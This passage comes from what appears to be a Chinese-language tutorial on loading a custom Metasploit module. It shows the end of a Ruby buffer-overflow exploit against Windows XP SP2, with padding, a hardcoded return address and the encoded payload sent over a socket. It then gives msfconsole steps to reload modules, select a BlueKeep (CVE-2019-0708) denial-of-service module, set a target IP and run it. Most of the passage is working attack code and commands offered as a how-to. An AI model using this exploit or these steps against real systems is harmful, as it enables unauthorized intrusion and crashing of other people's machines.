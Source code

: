 ```rb
        {
          'Space'    => 300,
          'BadChars' => "\x00",
        },
      'Platform' 		  => 'win',
      'Targets'        =>
        [
          [ 'Windows XP Pro SP2 English',           { 'Ret' => 0x7c809f83 } ],
        ]))
  end
 
  def exploit
    connect
    attack_buf =  'a'*200
    attack_buf += [target.ret].pack('V')
    attack_buf += payload.encoded
    sock.put(attack_buf)
    handler
    disconnect
  end
end
root@kali:/usr/share/metasploit-framework/modules/exploits/fwdtest#
```
### 然后启动msf
输入你的路径然后摁`tab`就行了(不能tab就是有猫病)
```
use exploit/jojo/xxxxx
```


输入
```
reload_all              \\重新加载所有模块
```

然后启动模块开始攻击
```
use exploit/jojo/cve_2019_0708_bluekeep_dos 

info

set rhosts 192.168.100.86(目标IP)

set verbose true 

run
```








